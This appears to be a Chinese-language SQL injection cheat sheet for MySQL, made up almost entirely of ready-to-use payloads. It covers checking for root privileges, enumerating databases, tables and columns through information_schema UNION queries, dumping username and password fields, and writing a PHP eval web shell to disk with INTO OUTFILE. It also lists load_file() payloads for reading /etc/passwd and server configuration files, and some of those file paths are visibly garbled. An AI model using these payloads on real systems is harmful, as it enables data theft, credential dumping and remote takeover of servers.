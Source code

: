 数据库权限：

```
and ord(mid(user(),1,1))=114  返回正常说明为root
```

暴库 (mysql>5.0)

Mysql 5 以上有内置库 `information_schema`，存储着mysql的所有数据库和表结构信息

```
and 1=2 union select 1,2,3,SCHEMA_NAME,5,6,7,8,9,10 from information_schema.SCHEMATA limit 0,1
```

猜表

```
and 1=2 union select 1,2,3,TABLE_NAME,5,6,7,8,9,10 from information_schema.TABLES where TABLE_SCHEMA=数据库（十六进制） limit 0（开始的记录，0为第一个开始记录）,1（显示1条记录）—
```

猜字段

```
and 1=2 Union select 1,2,3,COLUMN_NAME,5,6,7,8,9,10 from information_schema.COLUMNS where TABLE_NAME=表名（十六进制）limit 0,1
```

暴密码

```
and 1=2 Union select 1,2,3,用户名段,5,6,7,密码段,8,9 from 表名 limit 0,1
```

高级用法（一个可用字段显示两个数据内容）：

```
Union select 1,2,3,concat(用户名段,0x3c,密码段),5,6,7,8,9 from 表名 limit 0,1
```

直接写马(Root权限)

条件：

1、知道站点物理路径

2、有足够大的权限（可以用s`elect …. from mysql.user`测试）

3、`magic_quotes_gpc()=OFF`

```
select ‘<?php eval_r($_POST[cmd])?>' into outfile ‘物理路径'
and 1=2 union all select 一句话HEX值 into outfile '路径'
```

`load_file()` 常用路径：

1.  `replace(load_file(0×2F6574632F706173737764),0×3c,0×20)`
2.  `replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))`
    上面两个是查看一个PHP文件里完全显示代码.有些时候不替换一些字符,如 `<` 替换成”空格” 返回的是网页.而无法查看到代码.
3.  `load_file(char(47))` 可以列出FreeBSD,Sunos系统根目录
4.  `/etc tpd/conf tpd.conf`或`/usr/local/apche/conf tpd.conf` 查看linux APACHE虚拟主机配置文件
5.  `c:\Program Files\Apache Group\Apache\conf \httpd.conf` 或`C:\apache\conf \httpd.conf`查看WINDOWS系统apache文件
6.  `c:/Resin-3.0.14/conf/resin.conf` 查看jsp开发的网站 resin文件配置信息.
7.  `c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf` 查看linux系统配置的JSP虚拟主机
8.  `d:\APACHE\Apache2\conf\httpd.conf`
9.  `C:\Program Files\mysql\my.ini`
10.  `../themes/darkblue_orange/layout.inc.php phpmyadmin` 爆路径
11.  `c:\windows\system32\inetsrv\MetaBase.xml` 查看IIS的虚拟主机配置文件
12.  `/usr/local/resin-3.0.22/conf/resin.conf` 针对3.0.22的RESIN配置文件查看
13.  `/usr/local/resin-pro-3.0.22/conf/resin.conf` 同上
14.  `/usr/local/app/apache2/conf/extra tpd-vhosts.conf` APASHE虚拟主机查看
15.  `/etc/sysconfig/iptables` 本机防火墙策略
16.  `usr/local/app/php5 b/php.ini` PHP 的相当设置